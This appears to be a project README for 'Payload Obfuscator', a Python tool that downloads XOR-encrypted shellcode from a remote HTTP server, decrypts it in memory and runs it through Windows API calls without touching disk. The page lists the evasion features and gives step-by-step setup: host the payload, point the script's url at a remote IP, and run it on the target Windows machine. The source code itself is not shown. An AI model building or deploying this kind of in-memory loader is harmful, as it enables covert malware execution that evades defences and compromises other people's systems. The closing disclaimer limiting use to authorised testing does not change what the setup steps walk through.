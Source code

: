 ```yaml
---
description: >-
  Python script that downloads XOR-encrypted payloads, decrypts them at runtime,
  and executes them directly in memory via Windows API calls.
---
```


# Payload Obfuscator

Check it out - payload\_obfuscator.py

#### Features

* **Payload Encryption** – Uses XOR-based encryption to protect payloads in transit.
* **Downloader** – Retrieves the encrypted payload from a remote HTTP server.
* **Decryption at Runtime** – Decrypts payloads only in memory, never writing them to disk.
* **Windows API Integration** – Leverages `VirtualAlloc`, `RtlMoveMemory`, and `CreateThread` through Python’s `ctypes`.
* **Memory-Only Execution** – Executes the payload directly in allocated memory.

***

#### Requirements

* **Operating System**: Windows (needed for Windows API calls through `ctypes`)
* **Python Version**: Python 3.8 or later
* **Libraries**:
  * `requests` → for downloading the encrypted payload
  * `ctypes` → comes built-in with Python, used for calling Windows API functions

***

#### Installation

Before running the project, install the required library using:

```
pip install requests
```

***

#### Setup and Usage

1. **Prepare the Encrypted Payload**
   * Encrypt your payload using the same XOR key defined in the script.
   * Save it as `encrypted_shellcode.bin`.
2. **Start a Local HTTP Server**
   * Place the encrypted payload in a directory.
   *   Start a Python HTTP server to host it:

       ```
       python -m http.server 8000
       ```
3. **Configure the Script**
   * Update the `url` variable inside `encrypt_downloader.py` with the server’s IP address and port.
   *   Example:

       ```
       url = 'http://192.168.31.230:8000/encrypted_shellcode.bin'
       ```
4. **Run the Script**
   *   Execute the script on the Windows system:

       ```
       python encrypt_downloader.py
       ```
5. **Observe Execution**
   * The script downloads, decrypts, and executes the payload directly in memory.

***

#### Disclaimer

This tool is intended for educational and ethical testing purposes only.\
Do **not** use it on networks or systems you don’t own or have explicit permission to test.
